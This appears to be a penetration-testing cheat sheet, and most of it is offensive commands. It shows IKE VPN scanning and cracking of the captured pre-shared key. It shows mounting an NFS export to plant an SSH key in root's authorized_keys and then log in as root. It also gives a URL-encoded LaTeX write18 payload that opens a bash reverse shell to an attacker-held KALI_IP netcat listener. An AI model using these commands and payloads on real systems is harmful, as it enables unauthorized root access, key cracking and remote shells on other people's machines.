 ## VPN Testing

ike-scan
```bash
$ ike-scan 192.168.207.134
$ sudo ike-scan -A 192.168.207.134
$ sudo ike-scan -A 192.168.207.134 --id=myid -P192-168-207-134key
```

pskcrack
```bash
$ psk-crack -b 5 192-168-207-134key
$ psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
$ psk-crack -d /path/to/dictionary 192-168-207-134key
```

## Unix RPC

### NFS Mounts

```bash
meterpreter> use auxiliary/scanner/nfs/nfsmount
```

```bash
$ rpcinfo -p 192.168.0.10
```

```bash
$ showmount -e 192.168.0.10
$ mount 192.168.0.10:/secret /mnt/share/
```

```bash
$ ssh-keygen
$ mkdir /tmp/r00t
$ mount -t nfs 192.168.0.10:/secret /mnt/share/
$ cat ~/.ssh/id_rsa.pub >> /mnt/share/root/.ssh/authorized_keys
$ umount /mnt/share
$ ssh root@192.168.0.10
```

## Misc

### LaTeX

1) Setup a netcat listener on Kali
   ```
   kali$ nc -nlvp 31337
   ```
2) Use Burp or Postman to capture and repeat POST
3) Modify payload to post following content
   ```
   \immediate\write18{bash+-c+'bash+-i+>%26+/dev/tcp/KALI_IP/31337+0>%261'}
   ```
   Notice that the content is URL encoded! Also, the `KALI_IP` is often times a VPN IP, like on the tun0 interface. Basically it shold be the interface/IP that the remote machine has access to reach.
